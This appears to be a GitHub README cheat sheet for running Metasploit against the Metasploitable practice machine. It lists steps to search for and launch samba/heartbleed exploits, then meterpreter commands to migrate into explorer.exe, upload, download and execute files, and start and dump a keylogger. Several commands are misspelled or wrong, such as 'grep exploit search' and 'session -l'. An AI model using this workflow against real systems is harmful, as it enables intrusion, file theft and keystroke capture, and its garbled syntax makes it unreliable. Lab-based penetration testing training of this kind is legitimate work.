 # Welcome to Metasploitable

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. It is owned by Boston, Massachusetts-based security company Rapid7 .[Difference between Metasploit and Metasploitable-Metasploit is a framework within Kali to run attacks on other systems. Metasploitable is a vulnerable system that can be used as a target for attacks and security testing.] msfgui is the Metasploit Framework Graphical User Interface. It provides the easiest way to use Metasploit, whether running locally or connecting remotely, build payloads, launch exploits, control sessions, and keep track of activity as you penetration test or just learn about security.  [ command always case sensitive ]


		
### How to install metasploit ?	
    sudo apt install metasploit-framework	
    
### search heartbleed
    grep exploit search samba/heartbleed	
    
### 13 is paylod num from grep search
    use 13	
		
### Set rhost	
    set rhost ip	
		
### show info	
    info	
		
### show payload list	
    show option	
    exploit/run	
		
## After opening a session		
		
### Inner command	
    meterpreter>  background	
		
    meterpreter> session -l	
    
### Session number
    meterpreter>  session -i s_num	
		
    eog file.jpg	

    meterpreter> migrate id(explore.exe)	
		
    meterpreter> upload file_name	
		
    meterpreter> download file_name	
		
    meterpreter> execute -f file_name	

    meterpreter> keyscan_start	

    meterpreter> keyscan_dump	
    
### if need to stop 
    meterpreter> keyscan_stop	
    
    meterpreter> 	
		

    
    
		
